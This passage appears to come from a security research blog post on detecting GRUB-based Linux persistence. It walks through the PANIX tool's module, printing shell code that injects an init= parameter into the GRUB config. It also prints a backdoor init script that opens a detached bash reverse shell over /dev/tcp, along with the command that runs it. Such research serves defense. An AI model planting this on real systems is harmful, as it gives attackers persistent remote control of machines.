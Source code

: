 In this section we will be looking at the technical details related to GRUB persistence. To accomplish this, we will be leveraging the [setup_grub.sh](https://github.com/Aegrah/PANIX/blob/7e27768807e12d11932e2fca5b6a4867308295dd/modules/setup_grub.sh) module from [PANIX](https://github.com/Aegrah/PANIX), a custom-built Linux persistence tool. By simulating this technique, we will be able to research potential detection opportunities.

The GRUB module detects the Linux distribution it is running on, and determines the correct files to modify, and support tools necessary to establish persistence. There is no compatibility built into PANIX for Fedora-based operating systems within this module, due to the restricted environment available within the boot process. PANIX determines whether the payload is already injected, and if not, creates a custom configuration (`cfg`) file containing the `init=/grub-panix.sh` parameter. GRUB configuration files are loaded in ascending order, based on the modules’ numeric prefix. To ensure the injected module is loaded last, the priority is set to 99.

```
local grub_custom_dir="/etc/default/grub.d"
local grub_custom_file="${grub_custom_dir}/99-panix.cfg"

echo "[*] Creating custom GRUB configuration file: $grub_custom_file"
cat <<EOF > "$grub_custom_file"
# Panix GRUB persistence configuration
GRUB_CMDLINE_LINUX_DEFAULT="$GRUB_CMDLINE_LINUX_DEFAULT init=/grub-panix.sh"
EOF
```

After this configuration file is in place, the `/grub-panix.sh` script is created, containing a payload that sleeps for a certain amount of time (to ensure networking is available), after which it executes a reverse shell payload, detaching itself from its main process to ensure no hang ups.

```
payload="( sleep 10; nohup setsid bash -c 'bash -i >& /dev/tcp/${ip}/${port} 0>&1' & disown ) &"

local init_script="/grub-panix.sh"
echo "[*] Creating backdoor init script at: $init_script"
cat <<EOF > "$init_script"
#!/bin/bash
# Panix GRUB Persistence Backdoor (Ubuntu/Debian)
(
	echo "[*] Panix backdoor payload will execute after 10 seconds delay."
	${payload}
	echo "[+] Panix payload executed."
) &
exec /sbin/init
EOF
```

After these files are in place, all that is left is to update GRUB to contain the embedded backdoor module by running `update-grub`.

Let’s take a look at what this process looks like from a detection engineering perspective. Run the PANIX module through the following command:

```
> sudo ./panix.sh --grub --default --ip 192.168.1.100 --port 2014
[*] Creating backdoor init script at: /grub-panix.sh
[+] Backdoor init script created and made executable.
[*] Creating custom GRUB configuration file: /etc/default/grub.d/99-panix.cfg
[+] Custom GRUB configuration file created.
[*] Backing up /etc/default/grub to /etc/default/grub.bak...
[+] Backup created at /etc/default/grub.bak
[*] Running 'update-grub' to apply changes...
Sourcing file `/etc/default/grub'
Sourcing file `/etc/default/grub.d/99-panix.cfg'
Sourcing file `/etc/default/grub.d/init-select.cfg'
Generating grub configuration file ...
[+] GRUB configuration updated. Reboot to activate the payload.
```
